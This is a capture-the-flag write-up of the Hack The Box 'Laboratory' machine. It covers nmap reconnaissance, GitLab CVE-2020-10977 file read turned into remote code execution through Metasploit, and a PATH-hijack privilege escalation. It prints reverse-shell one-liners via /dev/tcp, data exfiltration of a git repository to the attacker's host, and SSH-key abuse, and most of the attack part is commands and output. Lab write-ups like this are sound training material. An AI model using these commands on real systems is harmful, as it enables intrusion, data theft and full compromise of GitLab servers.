

Hack The Box - Laboratory 10.10.10.216 

# Reconnaissance

## Nmap

```
$ nmap -sC -sV -oA scans/10-initial-laboratory 10.10.10.216
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to https://laboratory.htb/
443/tcp open  ssl/http Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: The Laboratory
| ssl-cert: Subject: commonName=laboratory.htb
| Subject Alternative Name: DNS:git.laboratory.htb
| Issuer: commonName=laboratory.htb
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-07-05T10:39:28
| Not valid after:  2024-03-03T10:39:28
| MD5:   2873 91a5 5022 f323 4b95 df98 b61a eb6c
|_SHA-1: 0875 3a7e eef6 8f50 0349 510d 9fbf abc3 c70a a1ca
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
OS: Ubuntu 20.04

## 80 - Web (laboratory.htb)


## 443 - Web (git.laboratory.htb)


# Initial Access

## Shell as git: Arbitrary File Read to RCE 

> CVE-2020-10977 (Disclosed at https://hackerone.com/reports/827052)
> GitLab EE/CE 8.5 to 12.9 is vulnerable to a an path traversal when moving an issue between projects. 

```bash
python3 cve_2020_10977.py https://git.laboratory.htb/ iamf iamfiamf
... <snip> ...
[+] Target        : https://git.laboratory.htb
[+] Username      : iamf
[+] Password      : iamfiamf
[+] Project Names : ProjectOne, ProjectTwo

[!] Trying to Login...
[+] Login Successful!
[!] Creating ProjectOne...
[+] ProjectOne Created Successfully!
[!] Creating ProjectTwo...
[+] ProjectTwo Created Successfully!
[>] Absolute Path to File : /etc/passwd
[!] Creating an Issue...
[+] Issue Created Successfully!
[!] Moving Issue...
[+] Issue Moved Successfully!
[+] File URL : https://git.laboratory.htb/iamf/ProjectTwo/uploads/9335567cda468be5d53e6ddcca1412e4/passwd

> /etc/passwd
----------------------------------------

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
... <snip> ...
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
registry:x:993:993::/var/opt/gitlab/registry:/bin/sh
gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh
gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh

```


```
$ cd /usr/share/metasploit-framework/modules/exploits/multi/http
$ wget https://raw.githubusercontent.com/rapid7/metasploit-framework/master/modules/exploits/multi/http/gitlab_file_read_rce.rb -
$ msfdb reinit
```

```
msf5 > use exploit/multi/http/gitlab_file_read_rce
[-] No results from search
[-] Failed to load module: exploit/multi/http/gitlab_file_read_rce
```

https://www.rapid7.com/db/modules/exploit/multi/http/gitlab_file_read_rce/

```
set USERNAME iamf
set PASSWORD iamfiamf
set RHOSTS 10.10.10.216
set RPORT 443
set SSL true
set VHOST git.laboratory.htb
set LHOST tun0
set LPORT 9001
```
```
msf5 exploit(multi/http/gitlab_file_read_rce) > set USERNAME iamf
USERNAME => iamf
msf5 exploit(multi/http/gitlab_file_read_rce) > set PASSWORD iamfiamf
PASSWORD => iamfiamf
msf5 exploit(multi/http/gitlab_file_read_rce) > set RHOSTS 10.10.10.216
RHOSTS => 10.10.10.216
msf5 exploit(multi/http/gitlab_file_read_rce) > set RPORT 443
RPORT => 443
msf5 exploit(multi/http/gitlab_file_read_rce) > set SSL true
SSL => true
msf5 exploit(multi/http/gitlab_file_read_rce) > set VHOST git.laboratory.htb
VHOST => git.laboratory.htb
msf5 exploit(multi/http/gitlab_file_read_rce) > set LHOST tun0
LHOST => tun0
msf5 exploit(multi/http/gitlab_file_read_rce) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/http/gitlab_file_read_rce) > run

[*] Started reverse TCP handler on 10.10.14.35:9001 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version.
[*] Logged in to user iamf
[*] Created project /iamf/hpt2TORA
[*] Created project /iamf/ysGE0u0L
[*] Created issue /iamf/hpt2TORA/issues/1
[*] Executing arbitrary file load
[+] File saved as: '/root/.msf4/loot/20210321174611_default_10.10.10.216_gitlab.secrets_490542.txt'
[+] Extracted secret_key_base 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
[*] NOTE: Setting the SECRET_KEY_BASE option with the above value will skip this arbitrary file read
[*] Attempting to delete project /iamf/hpt2TORA
[*] Deleted project /iamf/hpt2TORA
[*] Attempting to delete project /iamf/ysGE0u0L
[*] Deleted project /iamf/ysGE0u0L
[*] Command shell session 1 opened (10.10.14.35:9001 -> 10.10.10.216:52726) at 2021-03-21 17:46:14 -0400

id;hostname
uid=998(git) gid=998(git) groups=998(git)
git.laboratory.htb

```

A `.dockerenv` file found in `/`.

```
bash -c "bash -i >& /dev/tcp/10.10.14.39/9001 0>&1"
```

```
$ rlwrap nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.39] from (UNKNOWN) [10.10.10.216] 46444
bash: cannot set terminal process group (407): Inappropriate ioctl for device
bash: no job control in this shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
<ing$ python3 -c 'import pty;pty.spawn("/bin/bash")'                         
git@git:~/gitlab-rails/working$ export TERM=xterm
git@git:~/gitlab-rails/working$
``` 

# Privilege Escalation
## Shell as dexter: Path Hijack on SUID binary
```
git@git:~$ grep -Ri dexter 2>/dev/null
grep -Ri dexter 2>/dev/null
git-data/repositories/@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7.git/config:        fullpath = dexter/securedocker
git-data/repositories/@hashed/2c/62/2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3.git/config:        fullpath = dexter/securewebsite
```

```bash
git@git:~/git-data/repositories/@hashed/19/58/$ tar -czf /tmp/exfil-securedocker-git.tar 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7.git
git@git:~/git-data/repositories/@hashed/19/58/$ cd /tmp
git@git:/tmp$ cat exfil-securedocker-git.tar > /dev/tcp/10.10.14.39/9000
```
```bash
root@iamf# tar -xzf exfil-securedocker-git.tar
root@iamf# mkdir -p secure-docker/.git
root@iamf# mv 19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7.git/* secure-docker/.git/*
root@iamf# cd secure-docker/.git
root@iamf# git init
Initialized empty Git repository in /root/laboratory/loot/dexter-repository/secure-docker/.git/
root@iamf# git status
On branch master
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
        deleted:    README.md
        deleted:    create_gitlab.sh
        deleted:    dexter/.ssh/authorized_keys
        deleted:    dexter/.ssh/id_rsa
        deleted:    dexter/recipe.url
        deleted:    dexter/todo.txt
```



```bash
root@iamf# git checkout --
root@iamf# ls -la
total 20
drwxr-xr-x 3 root root 4096 Mar 22 09:36 .
drwxr-xr-x 4 root root 4096 Mar 22 09:36 ..
-rw-r--r-- 1 root root  102 Mar 22 09:36 recipe.url
drwxr-xr-x 2 root root 4096 Mar 22 09:36 .ssh
-rw-r--r-- 1 root root  160 Mar 22 09:36 todo.txt
```

```bash
root@iamf# chmod 600 id_rsa
root@iamf# ssh -i id_rsa dexter@10.10.10.216
Load key "id_rsa": invalid format
dexter@10.10.10.216: Permission denied (publickey).
```

```bash
root@iamf# echo '' >> id_rsa
root@iamf# ssh -i id_rsa dexter@10.10.10.216
dexter@laboratory:~$ id;hostname
uid=1000(dexter) gid=1000(dexter) groups=1000(dexter)
laboratory
dexter@laboratory:~$ ls -l
total 4
-r--r----- 1 root dexter 33 Mar 22 10:06 user.txt
```

## Shell as root

Linpeas
```bash
════════════════════════════════════╣ Interesting Files ╠════════════════════════════════════
[+] SUID - Check easy privesc, exploits and write perms                                                                                 
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid 
... <snip> ...
-rwsr-xr-x 1 root   dexter           17K Aug 28  2020 /usr/local/bin/docker-security
... <snip> ...
```


unquoted path

```
dexter@laboratory:~$ ltrace docker-security 
setuid(0)                                                                                                = -1
setgid(0)                                                                                                = -1
system("chmod 700 /usr/bin/docker"chmod: changing permissions of '/usr/bin/docker': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                   = 256
system("chmod 660 /var/run/docker.sock"chmod: changing permissions of '/var/run/docker.sock': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                   = 256
+++ exited (status 0) +++
```


path hijack

```
dexter@laboratory:~$ cd /dev/shm
dexter@laboratory:/dev/shm$ echo -e '#!/bin/bash \n /bin/bash' > chmod
dexter@laboratory:/dev/shm$ /bin/chmod +x chmod
dexter@laboratory:/dev/shm$ export PATH=$(pwd):$PATH
dexter@laboratory:/dev/shm$ which chmod
/dev/shm/chmod
dexter@laboratory:/dev/shm$ docker-security 
root@laboratory:/dev/shm# cut -c6- /root/root.txt 
9f593f335a0a1f403c753719eb6
```
